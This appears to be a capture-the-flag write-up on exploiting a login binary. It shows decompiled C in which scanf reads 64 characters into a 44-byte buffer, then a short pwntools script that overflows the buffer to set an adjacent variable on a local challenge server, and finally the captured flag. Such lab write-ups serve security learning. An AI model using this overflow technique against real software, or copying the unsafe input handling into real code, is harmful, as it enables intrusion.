 ```yaml
---
ai_date: 2025-04-27 05:25:32
ai_summary: Overflow exploit using buffer overflow in scanf input for 'password'
ai_tags:
  - buffer-overflow
  - overflow
  - x86
created: 2025-03-01T22:17
points: 100
solves: 16
updated: 2025-07-14T09:46
---
```


Well, `passw0rd` didn't work.

But... if we look closely, `s1` has length of 44 while `scanf` takes in 64 characters.

We can overflow it.

```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char s1[44]; // [rsp+0h] [rbp-30h] BYREF
  int v5; // [rsp+2Ch] [rbp-4h]

  puts(">>        * * * Login * * *        <<");
  v5 = 0;
  printf("Enter the password: ");
  __isoc99_scanf("%64[^\n]", s1);
  if ( !strcmp(s1, "passw0rd") )
    v5 = 1;
  if ( v5 )
  {
    puts("The password is right!");
    sub_4011F6();
  }
  else
  {
    puts("Wrong password.");
  }
  puts(">>        * * *  Bye  * * *        <<");
  return 0LL;
}
```

```python
# http://127.0.0.1:57254/
from pwn import *
r = remote('127.0.0.1', 57254)
payload = b"A" * 44
payload += p32(1)
r.sendlineafter(b'Enter the password: ', payload)
r.interactive()
```

```flag
ATHACKCTF{seee_d0uble_y0u_eee_0ne_twenty}
```